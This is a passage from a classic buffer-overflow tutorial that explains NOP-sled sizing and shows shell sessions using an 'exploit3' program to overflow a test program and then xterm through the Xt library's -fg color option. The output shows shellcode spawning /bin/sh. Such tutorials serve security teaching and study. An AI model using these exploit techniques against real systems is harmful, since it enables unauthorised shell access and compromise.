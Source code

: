   A good selection for our buffer size is about 100 bytes more than the size
of the buffer we are trying to overflow.  This will place our code at the end
of the buffer we are trying to overflow, giving a lot of space for the NOPs,
but still overwriting the return address with the address we guessed.  The
buffer we are trying to overflow is 512 bytes long, so we'll use 612.  Let's
try to overflow our test program with our new exploit:

</PRE>
```shell
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
$
```
<PRE>

   Whoa!  First try!  This change has improved our chances a hundredfold. 
Let's try it now on a real case of a buffer overflow.  We'll use for our
demonstration the buffer overflow on the Xt library.  For our example, we'll 
use xterm (all programs linked with the Xt library are vulnerable). You must
be running an X server and allow connections to it from the localhost.  Set
your DISPLAY variable accordingly.

</PRE>
```shell
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/sh


















^C
[aleph1]$ exit
```
```shell
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/shHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH


```